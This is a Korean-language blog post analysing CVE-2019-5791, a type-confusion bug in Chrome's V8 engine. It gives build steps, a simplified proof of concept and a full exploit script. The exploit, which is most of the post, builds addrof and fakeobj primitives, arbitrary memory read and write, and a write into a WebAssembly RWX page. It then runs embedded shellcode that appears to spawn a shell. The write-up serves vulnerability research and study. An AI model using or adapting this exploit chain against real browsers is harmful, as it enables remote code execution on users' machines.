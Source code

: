 ```yaml
---
layout: post
title: CVE-2019-5791 1day analysis
categories: Browser
tags: [v8, 1day]
---
```


## 목차

- 빌드
- POC 분석
- Exploit
- 레퍼런스


## 빌드

```bash
git clone <https://chromium.googlesource.com/chromium/tools/depot_tools.git>
export PATH=`pwd`/depot_tools:"$PATH"
fetch v8 
cd v8 
git checkout b267f94ffca9fb90d04ffa03c910d8508c20dd26
gclient sync
build/install-build-deps.sh
tools/dev/gm.py x64.release
```

## POC 분석

- POC 코드

  - https://bugs.chromium.org/p/chromium/issues/detail?id=926651

  - 총 2가지의 POC가 존재한다.

  - 근데 이 POC들은 조금 복잡하게 표현되어 있어서 단순화 시키면 다음과 같다.

    ```jsx
    call = function (code) {
    	try { code(); } catch (e) { console.log(e); }
    }
    
    function run() {
        const f = (v1 = (function() {
    		  var v2 = 0;
    	    var v3 = 0;
        	if (asdf) { return; } else { return; }
        	(function() { print("not trigger") });
    	    (function() { v3 = 'A'.repeat(5000); v2 = [1, 2, 3, 4, 5, 6] });
    		})()) => 1;
    	f();
    }
    
    let oob = {};
    
    %DebugPrint(oob);      // Object map
    %DebugPrint(run);      // JSFunction
    
    call(() => (run()));
    call(() => (run()));
    
    %DebugPrint(oob);      // JSArray[6] (v2)
    %DebugPrint(run);      // Array map
    
    run[13] = 0x41414141   // oob!!
    print(oob.length)
    ```

- call 함수로 run 함수를 2번 트리거하면 oob 객체는 v2라는 JSArray로, run 함수의 Map이 Array로 바뀌어 있다.

- 이 버그는 js 코드를 파싱하고 AST를 만드는 과정에서 최적화를 하려다 꼬인 경우이다.

- run 함수 내엔 두 가지의 익명 함수가 정의되어 있다.

  - 이 중 첫 번째 익명 함수는 트리거되지 않는다.
  - 두 번째 익명 함수는 run 함수가 2번째 call될 때 호출된다.
    - `v3 = 'A'.repeat(5000);` 가 실행되면 run 함수의 map이 Array map으로 변경되며 type confusion이 발생한다.
    - `v2 = [1, 2, 3, 4, 5, 6]` 가 실행되면 oob 객체가 지금 선언한 v2로 바뀐다.


- run 함수의 map이 Array map으로 바뀌게 되었고 13번째 인덱스 부분을 수정하면 v2로 변한 oob의 length를 바꿀 수 있게되어서 oob가 생긴다.

- oob가 트리거 되는 확률은 높지않다.

  - 힙쪽 oob인데, 여러 쓰레드에서 하나의 힙을 사용하다보니 힙 구성이 그때그때 달라지기 때문이다.

## Exploit

- 현 POC에선 oob가 발생하는 배열이 float가 아니어서 oob read가 되지 않는다. 그래서 v2를 float 배열로 바꿔준 후 디버깅을 통해 length offset을 다시 찾아서 0x41414141로 변경해주어야 한다.

- 그리고 obj_arr과 float_arr을 생성해서 `addrof`와 `fakeobj`를 만들어야하는데, 이 배열을 v2 바로 뒤에 생성하는게 oob 배열에서 접근하는 것이 더 편했다.

- 이제 oob 배열을 통해 `obj_arr_map`과 `float_arr_map`을 leak하고 type confusion을 일으켜서 addrof와 fakeobj를 구현하고 aar과 aaw를 만들어서 익스 하면 끝이다.

- rwx의 offset은 버전마다 달라져서 디버깅을 해보니 현 버전에선 `wasm_i_addr+0xf0n` 이었다. (vmmap으로 rwx 영역 확인 후 search -t qword rwx영역 으로 검색)

- 익스코드

  ```jsx
  call = function (code) {
  	try { code(); } catch (e) { console.log(e); }
  }
  
  function run() {
      const f = (v1 = (function() {
  			var v2 = 0;
  	    var v3 = 0;
      	if (asdf) { return; } else { return; }
      	(function() { print("not trigger") });
  	    (function() {
  				v3 = 'A'.repeat(5000);
  				v2 = [1.1, 1.2, 1.3, 1.4];
  				obj_arr = [{}].slice();
  				float_arr = [1.1, 1.2, 1.3, 1.4];
  			});
  	})()) => 1;
  	f();
  }
  
  let oob = {};
  
  call(() => (run()));
  call(() => (run()));
  
  run[19] = 0x41414141;
  print('oob.length: ' + hex(oob.length));
  
  var buf = new ArrayBuffer(8); 
  var f64_buf = new Float64Array(buf);
  var u64_buf = new Uint32Array(buf);
  
  function ftoi(val) { 
      f64_buf[0] = val;
      return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); 
  }
  
  function itof(val) { 
      u64_buf[0] = Number(val & 0xffffffffn);
      u64_buf[1] = Number(val >> 32n);
      return f64_buf[0];
  }
  
  function hex(b) {
  	return ('0x' + b.toString(16));
  }
  
  if (oob.length == 0x41414141) {
  	obj_arr_map = oob[28];
  	float_arr_map = oob[38];
  
  	print("float_arr_map: " + hex(ftoi(float_arr_map)));
  	print("obj_arr_map: " + hex(ftoi(obj_arr_map)));
  
  	var arb_rw_arr = [float_arr_map, 0, 1.3, 8];
  
  	function addrof(obj) {
  		obj_arr[0] = obj;
  		oob[28] = float_arr_map;
  		let addr = obj_arr[0];
  		oob[28] = obj_arr_map;
  		return ftoi(addr);
  	}
  
  	function fakeobj(addr) {
  		float_arr[0] = itof(addr);
  		oob[38] = obj_arr_map;
  		let fake = float_arr[0];
  		oob[38] = float_arr_map;
  
  		return fake;
  	}
  
  	function aar(addr) {
      	if (addr % 2n == 0)
  			addr += 1n;
  
      	let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
      	arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);
  
      	return ftoi(fake[0]);
  	}
  
  	function aaw_init(addr, val) {
      	fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
      	arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);
      	fake[0] = itof(BigInt(val));
  	}
  
  	var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
  	var wasm_mod = new WebAssembly.Module(wasm_code);
  	var wasm_instance = new WebAssembly.Instance(wasm_mod);
  	var f = wasm_instance.exports.main;
  	var wasm_i_addr = addrof(wasm_instance);
  	var rwx = aar((wasm_i_addr)+0xf0n);
  
  	print('rwx: ' + hex(rwx));
  
  	var shellcode = [0xbb48f631, 0x6e69622f, 0x68732f2f, 0x5f545356, 0x31583b6a, 0x050fd2];
  	var shellcode_buf = new ArrayBuffer(0x100);
  	var dataview = new DataView(shellcode_buf);
  	aaw_init(addrof(shellcode_buf)+0x20n, rwx);
  
  	for (var i=0; i<shellcode.length; i++) {
  		dataview.setUint32(4*i, shellcode[i], true);
  	}
  	f();	
  }
  ```

## 레퍼런스

-  https://bugs.chromium.org/p/chromium/issues/detail?id=926651
